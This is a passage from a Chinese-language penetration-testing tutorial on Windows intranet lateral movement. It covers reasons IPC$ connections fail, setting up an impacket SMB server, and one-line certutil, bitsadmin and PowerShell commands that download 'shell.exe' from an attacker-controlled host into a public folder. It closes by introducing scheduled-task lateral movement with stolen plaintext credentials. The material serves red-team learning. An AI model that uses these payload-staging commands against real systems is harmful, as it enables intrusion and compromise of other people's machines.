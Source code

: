 #### [建立 IPC 失败的原因](https://tttang.com/archive/1890/#toc_ipc_1)

（1）目标系统不是 NT 或以上的操作系统

（2）对方没有打开 IPC$共享

（3）对方未开启 139、445 端口，或者被防火墙屏蔽

（4）输出命令、账号密码有错误

### [通过搭建SMB服务器](https://tttang.com/archive/1890/#toc_smb)

SMB（Server Message Block，服务器消息块），又称CIFS（Common Internet File System，网络文件共享系统），主要功能是使网络上的计算机能够共享计算机文件、打印机、串行端口和通信等资源。SMB消息一般使用NetBIOS协议或TCP发送，分别使用端口139或445，目前倾向于使用445端口。

在linux上，可以通过 [https://github.com/fortra/impacket/blob/master/impacket/smbserver.py](https://github.com/fortra/impacket/blob/master/impacket/smbserver.py) 来搭建smb服务器。

`mkdir /root/smbshare python smbserver.py mysmb /root/smbshare -smb2support`

### [通过Windows自带工具](https://tttang.com/archive/1890/#toc_windows)

#### [**Certutil**](https://tttang.com/archive/1890/#toc_certutil)

Certutil 是Windows自带的命令行工具，用于管理Windows证书并作为证书服务器的一部分安装。Certutil提供了从网络下载文件的功能。

`certutil -urlcache -split -f http://192.168.1.1:8000/shell.exe c:\users\public\shell.exe  //从192.168.1.1:8000下载shell.exe到本地c:\users\public\目录下`

#### [**BITSAdmin**](https://tttang.com/archive/1890/#toc_bitsadmin)

BITSAdmin用于创建、下载和上传作业，监视其进度。Windows7及以后的系统自带BitsAdmin工具。

`bitsadmin /transfer test http://192.168.1.1:8000/1.txt c:\users\mytools\a.txt  // 创建一个名为test的bitsadmin任务，从192.168.1.1:8000下载1.txt,保存为c:\users\mytools\a.txt`

#### [**powershell**](https://tttang.com/archive/1890/#toc_powershell)

通过创建WebClient对象来实现文件下载

`(New-Object Net.WebClient).DownloadFile("http://192.168.1.1:8000/shell.exe", "c:\users\public\shell.exe")  powershell -c "(New-Object Net.WebClient).DownloadFile('http://192.168.1.1:8000/shell.exe','c:\users\public\shell.exe')"`

# [at & schtasks & sc横向](https://tttang.com/archive/1890/#toc_at-schtasks-sc)

在拿下一台内网主机后，通过本地信息搜集收集用户凭证等信息后，如何横向渗透拿下更多的主机？

使用 at&schtasks 命令，创建计划任务，在已知目标系统的用户明文密码的基础上，直接可以在远程主机上执行命令。
